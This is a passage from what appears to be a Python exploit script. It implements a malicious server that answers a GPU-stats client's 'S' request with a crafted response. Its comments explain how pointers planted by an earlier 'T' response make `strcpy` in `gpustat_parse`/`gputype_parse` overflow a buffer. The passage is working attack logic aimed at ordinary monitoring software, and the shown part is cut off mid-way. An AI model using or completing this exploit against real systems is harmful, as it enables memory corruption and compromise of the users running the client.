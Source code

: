             # Receive next request (should be 'S')
            data = conn.recv(5) # 'S' + 4 bytes length
            if not data or data[0] != ord('S'):
                print("Did not receive expected 'S' request.")
                return

            # Craft and send malicious 'S' response
            # The 'S' response itself doesn't directly cause the overflow,
            # but its processing triggers the `strcpy` using the pointers
            # set up by the 'T' response.
            # So, the 'S' response can be minimal, but it needs to be valid enough
            # to trigger the processing that leads to the `strcpy`.
            
            # The 'S' response format:
            # <num_gpus (4 bytes)><gpu0_stats_data>...
            # The stats data itself is not directly overflowing, but the act of processing it
            # will cause `gpustat_parse` to use the previously stored pointers.
            
            # Let's send a minimal but valid 'S' response.
            # The `gpustat_parse` function reads various stats.
            # It's the `strcpy` of `gg->type` and `gg->busid` that's vulnerable.
            # These are set by `gputype_parse`.
            